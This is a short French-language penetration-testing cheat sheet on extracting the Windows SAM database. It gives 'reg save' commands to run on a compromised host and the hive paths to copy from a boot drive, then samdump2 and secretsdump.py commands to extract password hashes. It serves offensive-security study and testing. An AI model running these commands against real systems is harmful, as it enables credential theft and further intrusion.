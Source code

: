 # Base SAM

### Récupérer la base SAM

#### Depuis un compte "administrateur local" sur le poste compromis

En PowerShell sur une machine compromise, il faut exécuter les commandes suivantes :

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

#### Depuis la partition Windows montée sur une clé bootable

Copier les fichiers SAM, SECURITY et SYSTEM sur un média amovibles.

```
# Chemin des fichiers
Windows/System32/config/SAM
Windows/System32/config/SECURITY
Windows/System32/config/SYSTEM
```

### Extraire les _hashs_

```
samdump2 system sam
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL # Fonctionne pour W10 et W11
```

